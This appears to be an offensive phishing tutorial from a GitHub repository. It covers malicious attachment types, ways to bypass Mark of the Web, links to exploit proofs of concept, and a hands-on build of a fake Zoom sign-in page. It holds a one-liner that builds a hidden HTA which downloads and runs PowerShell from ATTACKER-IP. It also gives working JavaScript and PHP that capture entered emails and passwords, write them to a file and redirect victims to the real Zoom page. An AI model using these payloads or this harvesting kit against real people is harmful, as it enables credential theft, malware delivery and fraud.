




# Phishing explained

* Phishing 101, Exploring Smishing (SMS), Vishing (Voice), and Chatting
* Payloads, Misdirection and Speedbumps
* Hands-On Credential Phishing
  * Creating a Zoom Credential Phishing Pretext
  * Cloning a Legitimate Website
  * Cleaning Up the Clone
  * Injecting Malicious Elements in the Clone
  * Crafting the Phishing email

## Phishing 101, Exploring Smishing (SMS), Vishing (Voice), and Chatting

Exploiting a trust relationship, and possibly adding other kinds of manipulations along the way (fear, urgency, authority), can help a target suspend their judgment, which can improve the effectiveness of a phishing campaign.

## Payloads, Misdirection, and Speedbumps

Malicious attachments can take different forms, including Office documents with VBA Macros, PDFs, **encrypted 7zip/zip archives**, **HTML with links to SMB files attack NTLMv2**, shortcut files, links, calendar invites and **executeables including .SCR and .EXE** files, HTA files, VBScript and JScript files.

## Inbound E-Mail Filters

Reputation Block Lists, or RBLs, are lists of Domain Names, Universal Resource Locators (URLs), and/or Internet Protocol (IP) addresses that have been identified as posing security threats.[1] DNS reputation systems can detect malicious domains at the registration time (with PREDATOR) or domain activity phase (with EXPOSURE). They classify domains as either malicious or benign; however, they do not consider compromised domains. The blocklists represent activity such as spam, malware distribution, command-and-control, phishing, and/or intellectual property rights infringement. Intermediaries, such as internet service providers, use them to block malicious communications.

Source: <https://icannwiki.org/Reputation_Block_Lists>

## Bypass Mark of the Web

Microsoft Windows NTFS file system uses a file attribute "Mark of the Web" for downloaded file from external source. It is implemented as Alternate Data Stream (ADS) and enabled by default on NTFS file systems. User may see SmartScreen and file open warnings for high risk extensions.

High risk file extension to avoid

```plain
.ade, .adp, .app, .asp, .cer, .chm, .cnt, .crt, .csh, .der, .fxp, .gadget, .grp, .hlp, .hpj, .img, .inf, .ins, .iso, .isp, .its, .js, .jse, .ksh, .mad, .maf, .mag, .mam, .maq, .mar, .mas, .mat, .mau, .mav, .maw, .mcf, .mda, .mdb, .mde, .mdt, .mdw, .mdz, .msc, .msh, .msh1, .msh1xml, .msh2, .msh2xml, .mshxml, .msp, .mst, .msu, .ops, .pcd, .pl, .plg, .prf, .prg, .printerexport, .ps1, .ps1xml, .ps2, .ps2xml, .psc1, .psc2, .psd1, .psm1, .pst, .scf, .sct, .shb, .shs, .theme, .tmp, .url, .vbe, .vbp, .vbs, .vhd, .vhdx, .vsmacros, .vsw, .webpnp, .ws, .wsc, .wsf, .wsh, .xnk
```

Low risk file extension to bypass MotW

* (password protected) compressed files `.7z` or `.zip`
* Batch files `.cmd` or `.bat` like batchgotAdmin-fixed.bat tool
* Executeable file disguised as Windows screen saver file `.scr`
* VBScript manipulated signed `.msi` installers like [Atera Software](https://www.atera.com/) disguised as `MSI` installer [CVE-2020-1599](https://blog.virustotal.com/2022/01/monitoring-malware-abusing-cve-2020-1599.html)
* VBScript or JSscript signed executeables `exe, dll` like [MSHTA to run VBScript](https://redcanary.com/threat-detection-report/techniques/mshta/) found by [Checkpoint ZLoader](https://research.checkpoint.com/2022/can-you-trust-a-files-digital-signature-new-zloader-campaign-exploits-microsofts-signature-verification-putting-users-at-risk/)

```pwsh
# Read MotW (Mark of the Web) Info
# ZoneId=3 is the internet
Get-Content path/to/file -Stream Zone.Identifier
notepad {name of file}:Zone.Identifier

# Bypass MotW using URL files to exploit MotW e.g. CVE-2022-41091
firefox https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-41091
```

## Assess Threats from Malicious Files

This is an example of what file formats are used by phishing attacks.

```shell
# Expoit RTF parser of WORD for RCE e.g. CVE-2023-21716
firefox https://github.com/JMousqueton/CVE-2023-21716/blob/main/POC-CVE-2023-21716.py

# Exploit PDF viewer of Acrobat for RCE e.g. CVE-2023-21608
firefox https://github.com/hacksysteam/CVE-2023-21608

# Exploit CSRF Vulnerability in AutoGPT e.g. CVE-2024-1879
firefox https://huntr.com/bounties/125c2d0c-0481-4e5c-ae90-fec263acdf32

# Exploit NTLMv2 Auth utilizing compressed HTML with SMB link to a file
firefox https://www.proofpoint.com/uk/blog/threat-insight/ta577s-unusual-attack-chain-leads-ntlm-data-theft
```

### Create Malicious HTA files

* Nishang Framework <https://github.com/samratashok/nishang/blob/master/Client/Out-HTA.ps1>
* Unicorn Tool <https://github.com/trustedsec/unicorn>

```shell
# Set DownLoadString from exploit/multi/script/web_delivery 
ps="iex (New-Object Net.WebClient).DownloadString('http//ATTACKER-IP/InHFgoM77v6ck')" encode="`echo $ps | iconv --to-code UTF-16LE | base64 -w 0`" echo -e "####HTA FILE####\n" echo "<script>" echo 'a=new ActiveXObject("WScript.Shell");' echo "a.run('%windir%\\\\System32\\\\cmd.exe /c powershell.exe -nop -w hidden -enc $encode');" echo 'a.run("http://www.companyname.com/legit.pdf")'; echo "window.close();" echo "</script>" echo -e "\n ####IFRAME####\n" echo '<iframe id="frame" src="CHANGEME.hta" application="yes" width=0 height=0 style="hidden" frameborder=0 marginheight=0 marginwidth=0 scrolling=no>></iframe>' 
```

### Create Malicious JScript Remote Access Trojans (RATs)

|  |
| :---: |
| *Example of JScript RAT* |

|  |
| :---: |
| *Example of a 1st loader stage downloaded from C4C* |

|  |
| :---: |
| *Example of a 2nd loader stage downloaded from C4C* |

|  |
| :---: |
| *Example of disableing defender using powershell |

## Malicious Links

We might obfuscate the embedded link using a URL shortener such as `TinyURL` or `Bitly`. However, the third-party service might disable our link if the service provider discovers the link points to malware.

Another approach to bypass file permission protection is to **clone and host commonly used service for credentials harvesting** with similar domain name or even [homemorph URLs](https://en.wikipedia.org/wiki/IDN_homograph_attack). This can be easy with website like Google Gmail, Zoom Microsoft Login pages.

Flaws in programs like password managers and browser plugins that are not directly exploitalbe, but with links in the phishing mails it can be done.

```shell
# Lastpass browser-extension autofill sends credential to crafted URL (2016)
firefox https://labs.detectify.com/writeups/how-i-made-lastpass-give-me-all-your-passwords/

# Lastpass browser-extension unauthenticate read with Window messages (2017)
firefox https://project-zero.issues.chromium.org/issues/42450228

# 1Password browser-extension read form user's vault (2021)
firefox https://nvd.nist.gov/vuln/detail/CVE-2021-41795

# Android App AutoSpill Attack using WebView control  (2023)
firefox https://i.blackhat.com/EU-23/Presentations/EU-23-Gangwal-AutoSpill-Zero-Effort-Credential-Stealing.pdf

```

## Credential Phishing and Multi-Factor Authentication (MFA)

Use Browser-in-the-Middle (BitM) advanced attacks like the specialized server [cuddlefish](https://github.com/fkasler/cuddlephish?tab=readme-ov-file#under-the-hood) which mimiks the real website but streams it via video to the victim. It hosts a chrome browser in debug mode on the attackers side.

```shell
# Exploit Browser-in-the-middle (BitM) with CuddlePhish web server
# https://capec.mitre.org/data/definitions/701.html
firefox https://github.com/fkasler/cuddlephish?tab=readme-ov-file#under-the-hood
```

## Hands-on-Credential Phishing

Scenario

* Cloning a legitimate Website
* Cleaning Up the Clone
* Injecting Malicious Elements in the Clone
* Crafting the Phishing email using leaked credentials

Clone a letitimate Website

* Use `wget` to download an offline version
* Option -E change the file extension
* Option -k convert links to local file paths
* Option -K save original file with **.orig** extension
* Option -p download all necessary files for viewing the page
* Option -e `robots=off` to ignore robots.txt content
* Option -H download form extional hosts
* Option -D to limit the domains
* Option -nd save all files in a flat without subdirectories

```bash
# Clone ZoomSignin website
mkdir -p ~/ZoomSignin
cd ~/ZoomSignin
wget -E -k -K -p -e robots=off -H -Dzoom.us -nd "https://zoom.us/signin#/login"
ls -la
```

Cleaning up the Website Clone

* Use firefox to render the website
* Find ostacles that prevent hosting the website e.g. CSRF protection
* Find missing post endpoints to be addressed when clicking loging
* Serve the endpoint by injecting malicious code

```bash
# Setup a http server to render offline version of the website 
sudo python -m http.server 80
firefox http://localhost/signin.html

# Remove OWSAP CSRF Guard from Signin page
grep -R "OWASP CSRF"
grep "csrf_js" *
sed -i '342d' signin.html

# Remove other external references
grep -n "cdn.cookielaw.org" *
sed -i '351d' signin.html

```

Injecting Malicious Code in to the Clone

* Host the content on Apache webserver
* Use ChatGPT to add some malicous javascript code
* Create PHP script to write user credentials to a file

```bash
# Move the ZoomLogin to a real webserver
sudo mkdir -p /var/www/html/ZoomLogin
sudo mv -f * /var/www/html/ZoomLogin
sudo systemctl start apache2
cd /var/www/html

# Copy the misisng content of id="app" from original page using debugging tools
firefox https://zoom.us/signin#/login
# Rename it to id="custom_app" and change the behaviour associated with id="app" 
sed -i 's/id="app"/id="custom_app"/g' signin.html
```

Use ChatGPT to add some malicous javascript code

* OnClick "Sign In"
* Log credential to console (debugging only)
* Send the credentials to the malicous custom_login.php

```javascript
// tail -n +1150 signin.html | head -n 58
<body>
...
<script>
  
  // log credentials to console
  function logCredentials(email, password) {
    console.log("Signing in with email and password!");
    console.log("Email:", email);
    console.log("Password:", password);
  }
  
  // send credentials to malicous custom_login.php
  function sendCredentials(email, password) {  
    const postData = new URLSearchParams({ email, password });
    return fetch("custom_login.php", {
      method: "POST",
      headers: { "Content-Type": "application/x-www-form-urlencoded" },
      body: postData
    })
    .then(response => {
      response.ok 
        ? console.log("Data submitted successfully") 
        : console.error("Server error:", response.status);
      return response;
    })
    .catch(error => {
      console.error("Error submitting data:", error);
    });
  }
  
  // onClick "Next"
  document.getElementById("signin_btn_next").onclick = function () {
    // Show password input field
    const passwordInput = document.querySelector('input[name="password"]');
    if (passwordInput) {
      passwordInput.parentElement.style.display = "block";
      passwordInput.removeAttribute("aria-hidden");
      passwordInput.removeAttribute("tabindex");
    }
    
    // Change button text to "Sign In"
    this.querySelector(".zm-button__slot").innerText = "Sign In";

    // onclick "Sign In"
    this.onclick = async function() {
      const email = document.getElementById("email")?.value;
      const password = document.querySelector('input[name="password"]')?.value;
      logCredentials(email, password);
      sendCredentials(email,password)
      .then(async (response) => {
        response.redirected
          ? window.location.href = response.url
          : document.body.innerHTML = await response.text();
      });   
    }
  };
</script>

</body>
</html>     
```

Create PHP script to write user credentials to a file

* Check post parameter email and password
* Append user and password to file credential.txt
* Redirect the user to the official Zoom sign in page
* Lookup user credentials.txt

```php
// cat custom_login.php 
<?php
// Check if the form fields 'email' and 'password' are set
if (isset($_POST['email']) && isset($_POST['password'])) {
    // Get the email and password from the form
    $email = $_POST['email'];
    $password = $_POST['password'];

    // Define the file path to store the credentials
    $file = 'credentials.txt';

    // Prepare the data to write (append mode)
    $data = "Email: " . $email . "\nPassword: " . $password . "\n\n";

    // Use file_put_contents to write to the file and create it if it doesn’t exist
    if (file_put_contents($file, $data, FILE_APPEND | LOCK_EX) === false) {
        echo "Error writing to file.";
        exit();
    }

    // Redirect the user to the official Zoom sign in page
    header('Location: https://zoom.us/signin#/login');
    exit();
} else {
    header("Content-Type: text/plain");
    echo "Please ensure both email and password are provided.";
}
?>     
```

|  |
| :---: |
| *Cloned zoom.us phishing page example* |

Crafting the Phishing email using leaked credentials

* Login: `http://VICTIM.internal/mail/`
* User: `stolenuser@mail.corp.com`
* Pass: `S0meS3cr3tP4ssw0rd`
